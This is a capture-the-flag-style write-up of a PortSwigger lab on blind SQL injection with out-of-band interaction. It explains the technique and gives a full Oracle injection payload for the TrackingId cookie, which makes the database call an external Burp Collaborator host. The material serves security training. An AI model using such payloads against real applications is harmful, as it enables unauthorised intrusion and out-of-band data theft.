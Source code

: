 # Lab: Blind SQL injection with out-of-band interaction
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

## Disclaimer
**This room requires Burp Collaborator, which is only usably with Burp Suite Professional.**

So for me this lab is not solvable. But I will explain the idea behind the attack and the theoretical payload you could use.

## Out-of-band interaction
In this lab we can use a blind SQL injection, but there is no response by the application like conditional responses, error messages or time delays.

To still abuse this vulnerability, we can use out-of-band techniques. To shorten things up, you inject a query, which sends it's response, for example, as subdomain in a DNS request to an other server.

Burp Collaborator is a tool by Burp, which automates this technique in the Burp Suite interface.

## Solution
The injection takes place over the TrackingId cookie of the website again.

The goal is only to create an out-of-band interaction without any data extraction. We can do this by the following statement. The database is an Oracle DB (queries for different databases are listet in the [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)):
```
TrackingId=' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual) ||'
```

This query creates a DNS request to the collaborator server with the corresponding subdomain (http://BURP-COLLABORATOR-SUBDOMAIN.burpcollaborator.net/). Burp Collaborator shows those on the server incoming requests in the interface.

The lab would be solved with this.

